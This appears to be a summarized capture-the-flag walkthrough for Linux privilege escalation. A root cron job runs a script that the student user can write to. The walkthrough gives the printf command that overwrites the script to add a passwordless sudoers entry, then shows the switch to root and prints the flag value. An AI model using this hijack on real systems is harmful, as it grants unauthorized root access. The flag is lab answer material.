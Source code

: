 

Here are the summarized steps from the document in bullet points:

**Step 1:** There's a "message" file in the student user's home directory, but only the root user has permissions to access it. Check the permissions: `ls -l`.

**Step 2:** Search for a file with the same name ("message") on the system: `find / -name message`.

**Step 3:** Discover that a file with the same name is present in the /tmp directory, and it's overwritten every minute: `ls -l /tmp/`.

**Step 4:** Identify a script or binary that's copying the file from the student's home directory to /tmp. Use the `grep` command to locate it by searching for the destination path in potential directories. Find a match in the /usr directory: `grep -nri "/tmp/message" /usr`.

**Step 5:** Check the permissions on this script file and its contents: `ls -l /usr/local/share/copy.sh` and `cat /usr/local/share/copy.sh`.

**Step 6:** Realize that the script file is writable by the current "student" user and can be modified to execute privileged operations as it's executed by a root cron job.

**Step 7:** Use `printf` to replace the original code with lines that add an entry to the sudoers file, allowing the student user to use `sudo` without a password prompt: `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`.

**Step 8:** Check the current sudoers list: `sudo -l`.

**Step 9:** There are no new entries, so wait for one minute (the cron job runs every minute) and check the sudoers list again.

**Step 10:** After waiting for a minute, the new entry should be present. Switch to the root user using `sudo`: `sudo su`.

**Step 11:** Collect the flag from the root directory: `cd /root`, `ls -l`, and `cat flag`. The flag is revealed: 697914df7a07bb9b718c8ed258150164.

These steps outline the process of exploiting a cron job to gain privileged access and retrieve the flag from the root directory.